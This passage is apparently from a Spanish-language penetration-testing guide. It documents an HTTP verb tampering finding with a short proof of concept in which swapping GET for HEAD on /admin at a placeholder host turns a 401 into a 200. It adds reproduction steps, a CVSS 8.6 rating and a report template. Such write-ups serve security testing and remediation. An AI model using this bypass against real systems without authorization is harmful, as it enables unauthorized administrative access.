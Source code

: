 ##### Proof of Concept
```http
# Request Normal (Bloqueado)
GET /admin HTTP/1.1
Host: target.com
# Response: 401 Unauthorized

# Request con Verb Tampering (Permitido)
HEAD /admin HTTP/1.1
Host: target.com
# Response: 200 OK
```

##### Pasos para Reproducir
1. Acceder a http://target.com/admin con método GET
2. Observar respuesta 401 Unauthorized
3. Cambiar método a HEAD
4. Observar bypass exitoso con código 200

#### Clasificación de Riesgo

##### CVSS Score Calculation
- **Vector**: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L
- **Score**: 8.6 (High)

##### Criterios de Evaluación
- **Confidencialidad**: Alta (acceso a información sensible)
- **Integridad**: Alta (modificación de datos)
- **Disponibilidad**: Baja (no afecta disponibilidad)

### Template de Documentación

```markdown
## HTTP Verb Tampering - [URL]

### Descripción
[Descripción detallada del hallazgo]

### Impacto
- [ ] Bypass de autenticación
- [ ] Bypass de autorización  
- [ ] Acceso a funciones administrativas
- [ ] Revelación de información
- [ ] Modificación de datos

### Evidencia
```http
[Request/Response de prueba]
```

### Remediation
[Recomendaciones específicas]
